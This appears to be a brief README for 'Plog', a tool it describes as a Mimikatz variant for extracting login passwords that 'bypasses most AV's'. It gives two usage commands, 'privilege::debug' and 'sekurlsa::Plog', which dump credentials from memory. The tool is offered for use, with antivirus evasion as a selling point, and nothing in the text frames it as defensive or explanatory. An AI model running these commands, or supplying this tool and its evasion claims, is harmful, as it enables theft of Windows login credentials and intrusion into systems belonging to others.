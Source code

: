 # Plog
A Mimikatz For Only Extracting Login Passwords.(Bypasses Most AV's)

```privilege::debug```

```sekurlsa::Plog```
